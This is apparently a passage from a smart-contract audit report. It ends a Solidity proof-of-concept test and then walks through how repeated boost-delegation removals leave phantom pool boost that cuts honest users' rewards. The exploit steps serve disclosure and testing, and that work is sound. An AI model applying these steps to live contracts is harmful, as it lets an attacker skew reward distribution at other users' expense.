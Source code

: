 ```solidity 
        console.log("An attacker could:");
        console.log("1. Create multiple delegations");
        console.log("2. Remove them to inflate pool boost");
        console.log("3. Each removal adds phantom boost of:", poolTotalBoost);
        console.log("4. After 10 removals, phantom boost would be:", poolTotalBoost * 10);
        
        // Verify the vulnerability
        assertGt(
            postTotalBoost,
            0,
            "Pool boost should be 0 but remains inflated"
        );
        
        assertLt(
            legitUserRewardsAfter,
            legitUserRewardsBefore,
            "User receives fewer rewards due to phantom boost"
        );
    }
}
``` 


### Vulnerability flow.

Initial State Creation:


// User locks tokens and creates first delegation
```solidity 
veToken.lock(4000e18, 365 days);
boostController.delegateBoost(receiver, veTokenBalance, 30 days);
​
// Pool State after first delegation:
poolTotalBoost = 10000
workingSupply = 10000
Second Delegation:

// Create second delegation
boostController.delegateBoost(receiver2, 1000e18, 30 days);
​
// Pool State after second delegation:
poolTotalBoost = 20000
workingSupply = 10000
Delegation Removals:

// First removal - changes state
boostController.removeBoostDelegation(delegator);
// Pool state remains unchanged due to vulnerability:
// poolTotalBoost = 20000
// workingSupply = 10000
​
// Second removal - vulnerable state reached!!!
boostController.removeBoostDelegation(delegator);
// poolBoost.totalBoost (20000) < delegation.amount (1000e18)
// Subtraction skipped but delegation deleted
Final Corrupted State:

// Final pool state:
poolTotalBoost = 20000    // Permanent phantom boost
workingSupply = 10000     // Also inflated
```
